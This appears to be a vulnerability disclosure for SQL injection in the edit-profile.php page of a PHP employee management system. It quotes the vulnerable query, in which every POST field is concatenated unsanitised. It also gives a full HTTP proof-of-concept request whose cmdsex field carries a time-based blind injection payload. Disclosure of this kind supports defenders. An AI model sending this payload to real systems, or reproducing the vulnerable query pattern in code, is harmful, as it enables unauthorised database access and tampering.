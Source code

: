 ### Vulnerability file address

`Employee/edit-profile.php` from line 8,The `$_POST['cmdsex']` parameter is controllable and the `$_POST['cmdsex']` is not protected from sql injection, line 8`$sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";` ,line 9`mysqli_query($conn, $sql)`,line 9 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');
if (empty($_SESSION['login_email'])) {
    header("Location: ../Account/login.php");
}

if (isset($_POST["btnedit"])) {
    $sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";
    if (mysqli_query($conn, $sql)) {
        header("Location: profile.php");
    } else {
        $_SESSION['error'] = 'Editing Was Not Successful';
    }
}
```

### POC

```http
POST /CMS/php/employee_akpoly/Employee/edit-profile.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/edit-profile.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtfullname=1&cmdsex='||(SELECT 0x4c777563 WHERE 2319=2319 AND (SELECT 3533 FROM (SELECT(SLEEP(5)))kOno))||'&txtphone=08067361023&txtdob=12/9/1980&txtaddress=12 Ikono rd&txtqualification=Msc&cmddept=Bursary&cmdemployeetype=Academic&txtappointment=9/9/2023&txtbasic_salary=21000&txtgross_pay=25000&btnedit=
```

### Attack results pictures

![image-20250129001017952](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501290010001.png)
